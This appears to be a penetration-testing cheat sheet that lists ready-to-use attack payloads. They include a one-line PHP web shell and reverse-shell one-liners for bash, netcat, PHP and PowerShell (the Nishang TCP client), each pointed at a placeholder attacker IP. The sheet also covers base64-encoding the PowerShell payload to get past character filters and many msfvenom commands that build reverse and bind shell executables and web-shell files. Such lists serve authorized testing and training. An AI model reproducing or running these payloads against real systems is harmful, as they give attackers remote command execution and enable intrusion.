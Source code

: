 ## Web Shells
###### PHP Webshell
`<?php system($_GET['cmd']); ?>`

---
## Reverse Shells
##### Linux
###### Bash Stable
`bash -c 'bash -i >& /dev/tcp/<attack-ip>/<port> 0>&1'`
###### nc
`nc -e /bin/sh <attack-ip> <listener-port>`
###### Old nc version
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attack-ip> <listener-port> >/tmp/f`
###### PHP Reverse Shell for Linux
```PHP
<?php
$ip = '<attack-ip>';
$port = <attack-port>;
$cmd = "/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'";
exec($cmd);
?>
```

---
#### Windows
##### PowerShell
###### Nishang Reverse Shell Payload
```powershell
$client = New-Object System.Net.Sockets.TCPClient("<attack-ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
**Note:** Base64 encoding the payload often helps with character restrictions. The process below has been automated with [powershell-encoder](https://github.com/NinjaPete/tools/blob/main/powershell-encoder.py).
###### Manual PowerShell Reverse Shell Base64 Encoding
Using pwsh on Kali:
###### Assign Shell to Text Variable
```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attack-ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
###### Get the Unicode Bytes
`$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`
###### Encode to Base64 string
`$EncodedText =[Convert]::ToBase64String($Bytes)`
###### Read Out Encoded Shell
`$EncodedText`
###### Execute Encoded Shell
`powershell -e <base64-encoded-payload>`
###### nc
`nc.exe <attack-ip> <port> -e cmd.exe`
###### PHP Reverse Shell for Windows
``` PHP
<?php
$ip = '<attack-ip>';
$port = <attack-port>;
$cmd = "cmd.exe";

$sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
socket_connect($sock, $ip, $port);
socket_write($sock, "Windows Reverse Shell Connected\r\n");

while (false !== ($data = socket_read($sock, 2048, PHP_NORMAL_READ))) {
    $output = shell_exec($data);
    socket_write($sock, $output . "\r\n");
}

socket_close($sock);
?>
```

---
#### PHP
###### Not Escaped PHP Reverse Shell
`php -r '$sock=fsockopen("<attack-ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
###### Escaped Characters PHP Reverse Shell
`php -r '\$sock=fsockopen(\"<attack-ip>\",<port>);exec(\"/bin/sh -i <&3 >&3 2>&3\");'`

---
#### MSFVenom
###### General Usage
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

```
msfvenom -l payloads #Payloads

msfvenom -l encoders #Encoders
```
#### Windows Shells
###### Reverse 32bit
`msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o reverse_shell.exe`
###### Reverse 64bit
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o reverse_shell.exe`
###### Bind
`msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe`
###### CMD Shell
`msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe`

---
#### Linux
###### Reverse
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf`
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`
###### Bind
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf`
###### Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh`
###### Python
`msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py`

---
#### Web
###### PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
###### ASP/X
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx`
###### JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp`
###### NodeJS
`msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)`
###### WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war`
